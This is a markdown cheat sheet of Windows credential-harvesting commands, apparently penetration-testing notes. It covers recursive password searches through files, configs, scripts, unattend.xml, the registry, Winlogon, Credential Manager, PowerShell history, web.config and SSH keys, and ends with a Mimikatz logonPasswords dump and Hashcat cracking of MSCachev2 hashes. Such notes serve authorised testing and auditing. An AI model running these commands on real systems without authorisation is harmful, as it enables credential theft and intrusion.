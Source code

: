 # Index
- [[ Windows Credential Harvesting ]]

# Find Files Containing Passwords

Sensitive information like passwords may be stored in files across the file system. Below are commands to search for such files.

#### Searching for Files Containing Passwords

- **CMD:** Search for files containing "password" in the file name:
    ```cmd
    dir C:\*password* /s /p > C:\Path\To\Outfile.txt
    ```

- **PowerShell:** Search the file system for files containing "password" in the name or content:
    ```powershell
    Get-ChildItem -Path C:\ -Recurse -Include *password* -ErrorAction SilentlyContinue | Select-String -Pattern "password" | Out-File "C:\Path\To\Outfile.txt"
    ```

# Search for Configuration Files Containing Credentials

Configuration files often store sensitive data like usernames and passwords. The following commands can help you locate such files.

#### Searching for Configuration Files with Credentials

- **CMD:** Search configuration files for the string "password":
    ```cmd
    findstr /s /i "password" *.config *.xml *.ini > C:\Path\To\Outfile.txt
    ```

- **PowerShell:** Search for common configuration file types (`.config`, `.xml`, `.ini`) that may contain credentials:
    ```powershell
    Get-ChildItem -Path C:\ -Recurse -Include *.config,*.xml,*.ini -ErrorAction SilentlyContinue | Select-String -Pattern "password" | Out-File "C:\Path\To\Outfile.txt"
    ```

#### Examining System Files for Credentials
- Check for Plaintext Passwords in Configuration Files:
	Inspect specific files (such as configuration files) for the occurrence of passwords in plaintext.
	```powershell
	Get-Content C:\Path\To\Config\File.txt | Select-String -Pattern "password" | Out-File "C:\Path\To\Outfile.txt"
	```

# Search for Credentials in Script Files

Credentials are sometimes hardcoded in scripts, which can be easily overlooked by administrators. The following commands search through common script file types.

#### Searching for Hardcoded Credentials in Scripts

- **CMD:** Search for "password" in `.ps1`, `.bat`, or `.sh` script files:
    ```cmd
    findstr /s /i "password" *.ps1 *.bat *.sh > C:\Path\To\Outfile.txt
    ```

- **PowerShell:** Search for "password" in `.ps1`, `.bat`, or `.sh` script files:
    ```powershell
    Get-ChildItem -Path C:\ -Recurse -Include *.ps1,*.bat,*.sh -ErrorAction SilentlyContinue | Select-String -Pattern "password|passwd|pwd" | Out-File "C:\Path\To\Outfile.txt"
    ```

# Unattended Windows Installations

When installing Windows on a large number of hosts, administrators may use Windows Deployment Services, which allows for a single operating system image to be deployed to several hosts through the network. Such installations require the use of an administrator account to perform the initial setup, which might end up being stored in the machine in the following locations:
	- `C:\Unattend.xml`
	- `C:\Windows\Panther\Unattend.xml`
	- `C:\Windows\Panther\Unattend\Unattend.xml`
	- `C:\Windows\system32\sysprep.inf`
	- `C:\Windows\system32\sysprep\sysprep.xml`

#### Searching for Unattended Installation Files

- **CMD:** Search for unattended installation files:
    ```cmd
    dir /s /p C:\unattend.xml C:\Windows\Panther\Unattend.xml C:\Windows\Panther\Unattend\Unattend.xml C:\Windows\system32\sysprep.inf C:\Windows\system32\sysprep\sysprep.xml > C:\Path\To\Outfile.txt
    ```

- **PowerShell:** Search for unattended installation files that may contain passwords:
    ```powershell
    Get-ChildItem -Path C:\Windows -Recurse -Include *unattend*.xml,*sysprep*.xml -ErrorAction SilentlyContinue | Select-String -Pattern "password|Administrator" | Out-File "C:\Path\To\Outfile.txt"
    ```

# Search for Cleartext Credentials in the Windows Registry

Some applications store passwords in the Windows Registry. These entries can be queried and inspected.

#### Searching the Registry for Passwords

- **CMD:** Search the registry for keys containing "password":
    ```cmd
    reg query HKCU /s | findstr /i "password" > C:\Path\To\Outfile.txt
    ```

- **PowerShell:** Search the registry for keys or values that contain "password":
    ```powershell
    Get-ChildItem -Path HKCU:\ -Recurse | Get-ItemProperty | Where-Object { $_.PSObject.Properties.Name -match "password" } | Out-File "C:\Path\To\Outfile.txt"
    ```

# Cached Plaintext Credentials (Winlogon)

Windows systems may have cached credentials in the `Winlogon` registry key for auto-login functionality. This key often contains default usernames and passwords.

#### Checking for Cached Credentials in Winlogon

- **CMD:** Query the `Winlogon` registry key for cached credentials:
    ```cmd
    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" | findstr /i "DefaultUserName DefaultPassword"
    ```

# Saved Windows Credentials

Windows allows users to save credentials for ease of access. You can query these saved credentials using the following commands.

#### Listing Saved Credentials

- **CMD:** List saved credentials:
    ```cmd
    cmdkey /list
    ```

- **CMD:** Use VaultCmd to list credentials stored in the Windows Credential Manager:
    ```cmd
    vaultcmd /list
    ```

# PowerShell History

Commands run in PowerShell are stored in a history file, which can sometimes contain sensitive information if commands including passwords were executed.

#### Retrieving PowerShell Command History

- **CMD:** Read the PowerShell command history:
    ```cmd
    type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```

# IIS Configuration Files

Internet Information Services (IIS) stores its configuration in `web.config` files, which may contain database connection strings or other sensitive information like passwords.

#### Searching for Sensitive Information in IIS Config Files

- **CMD:** Search for connection strings in `web.config` files:
    ```cmd
    findstr /s /i "connectionString" C:\inetpub\wwwroot\web.config > C:\Path\To\Outfile.txt
    ```

- **PowerShell:** Search for sensitive information in `web.config` files:
    ```powershell
    Get-ChildItem -Path C:\inetpub\wwwroot\ -Recurse -Include web.config | Select-String -Pattern "connectionString|password" | Out-File "C:\Path\To\Outfile.txt"
    ```

# Searching for SSH Keys

SSH keys like `id_rsa` and `id_dsa` can grant unauthorized access to servers. Searching for these files can help identify potential vulnerabilities.

#### Searching for SSH Keys

- **CMD:** Search for SSH keys:
    ```cmd
    dir /s /p *id_rsa* *id_dsa* > C:\Path\To\Outfile.txt
    ```

- **PowerShell:** Search for SSH private keys:
    ```powershell
    Get-ChildItem -Path C:\ -Recurse -Include *id_rsa*,*id_dsa* -ErrorAction SilentlyContinue
    ```

# Credential Dumping Tools

External tools like **Mimikatz** can be used to extract credentials from memory, including plaintext passwords, NTLM hashes, and Kerberos tickets.

#### Using Mimikatz to Dump Credentials

- **CMD:** Run Mimikatz to dump credentials:
    ```cmd
    mimikatz.exe "privilege::debug" "sekurlsa::logonPasswords" exit
    ```

#### Cracking MSCachev2 Hashes

MSCachev2 hashes from cached domain credentials can be cracked using **Hashcat**.

- **Hashcat:** Crack `MSCachev2` hashes:
    ```bash
    hashcat -m 2100 <hashes_file> <password_list>
    ```